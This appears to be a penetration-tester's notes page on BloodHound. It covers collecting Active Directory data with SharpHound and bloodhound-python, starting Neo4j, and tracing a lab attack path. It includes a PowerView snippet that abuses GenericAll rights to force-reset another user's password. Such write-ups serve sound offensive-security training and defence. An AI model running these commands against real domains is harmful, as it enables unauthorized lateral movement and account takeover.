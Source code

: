 ```yaml
---
description: >-
  BloodHound uses graph theory to reveal the hidden and unintended relationships
  within an AD.
cover: broken-reference
coverY: 0
---
```


# Bloodhound

## What is Bloodhound

BloodHound is a powerful tool which everages graph theory to uncover hidden connections within Active Directory. This enables both attackers and defenders to visualize complex attack paths that might otherwise go unnoticed.

Bloodhound will show you the rights users have over others and this way show you a path for lateral movement. Bloodhound will also tell you what abuse is possible and provide the command to achieve this.

#### Extracting information with Sharphound

To get all the data we need to import in Bloodhound we can use Sharphound. This will create a .zip file with within .json files which can be importinto Bloodhound.

```bash
.\SharpHound.exe -c All --zipfilename ZENCORP
```

#### Bloodhound.py

[Bloodhound.py](https://github.com/dirkjanm/BloodHound.py) will also retrieve all information but does so from Linux.

```bash
sudo bloodhound-python -u 'james' -p 'pass123' -ns 172.16.5.5 -d zencorp.local -c all 
```

### Start Bloodhound

When starting Bloodhound for first time you have to change the password after starting the console

<details>

<summary>Start Bloodhound</summary>

```bash
$ sudo neo4j console

Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
2024-11-11 08:59:26.665+0000 INFO  Starting...
2024-11-11 08:59:27.069+0000 INFO  This instance is ServerId{6b761dd5} (6b761dd5-5ceb-4533-b057-a813dbb7b3f3)
2024-11-11 08:59:28.143+0000 INFO  ======== Neo4j 4.4.26 ========
2024-11-11 08:59:29.127+0000 INFO  Performing postInitialization step for component 'security-users' with version 3 and status CURRENT
2024-11-11 08:59:29.127+0000 INFO  Updating the initial password in component 'security-users'
2024-11-11 08:59:32.231+0000 INFO  Bolt enabled on localhost:7687.
2024-11-11 08:59:32.929+0000 INFO  Remote interface available at http://localhost:7474/
2024-11-11 08:59:32.932+0000 INFO  id: A51C60F7471651F5AB0B76A926FE7344157C9E9427F8D0BD84D5D886751B9547
2024-11-11 08:59:32.932+0000 INFO  name: system
2024-11-11 08:59:32.932+0000 INFO  creationDate: 2024-11-10T18:59:02.38Z
2024-11-11 08:59:32.933+0000 INFO  Started.

# Then start Bloodhound
bloodhound
```

</details>

Upload the JSON files

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

In this case we had credentials of Oliva user so we are starting there to see what rights she has. In the left pane search for Oliva and select it when the result is returned. First thing to check is OUTBOUND OBJECT CONTROL because this will identify potential lateral movement.

Clicking on Transitive Object Control shows Olivia has GenericAll over Michael and Michael has ForceChangePassword over Benjamin.

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

#### GenericallAll

Right click on Genericall and choosing help will tell us what GenericAll is and how it can be abused. Going to the tab Windows Abuse it tells us we can Kerberoast or Force Change Password. Bloodhound even provides the commands for it.

```powershell
# Save password in SecPassword
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

# Credential object stores a username and password
$Cred = New-Object System.Management.Automation.PSCredential('TESTLAB\mczen', $SecPassword)

# Save new password in UserPassword
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

# Set new password
Set-DomainUserPassword -Identity michael -AccountPassword $UserPassword -Credential $Cred
```

<figure><img src="broken-reference" alt=""><figcaption></figcaption></figure>

#### Custom queries

Queries will help you find interesting users and important things in Bloodhound.

```
curl -o ~/.config/bloodhound/customqueries.json "https://raw.githubusercontent.com/CompassSecurity/BloodHoundQueries/master/BloodHound_Custom_Queries/customqueries.json"
```

\=\\
